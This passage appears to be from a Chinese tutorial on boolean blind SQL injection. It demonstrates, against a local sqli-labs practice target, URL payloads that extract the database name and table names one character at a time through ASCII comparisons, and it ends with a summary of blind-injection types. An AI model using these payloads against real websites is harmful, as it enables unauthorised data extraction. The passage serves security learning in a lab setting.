 

### 3.靶场案例演示：


1.** 猜解数据库的名字**

`http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>115--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>116--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+  正常`


如此就得到了

第一个字符的ASCII码为115解码出来为“s”

第二个字符的ASCII码为101解码出来为“e”

第二个字符的ASCII码为99解码出来为“c”

依次类推出数据库的名字为“security”


2.**猜解表明名**

```
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
```


注：select下的limit是第几个表。

　　substr下的是截取的表内容。

当前库下（注入点连接的数据库）第一个表ASCII码为**114  解码为r**

当前库下（注入点连接的数据库）第一个表ASCII码为**101  解码为e**

**当前库下（注入点连接的数据库）第一个表ASCII码为....**  解码为** referer**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/02a961e381134335aec168900f9974ad.png)



### 总结归纳：

盲注分为三种：

**1.[布尔型盲注](http://www.cnblogs.com/xishaonian/p/6103505.html%20)：** 根据页面返回的真假来判断的即为**布尔型盲注**

**2.[时间型盲注](http://www.cnblogs.com/xishaonian/p/6113965.html)：** 根据页面返回的时间来判断的即为**时间型盲注**

**3.报错型盲注** ：根据页面返回的对错来判断的即为**报错型盲注**

# 
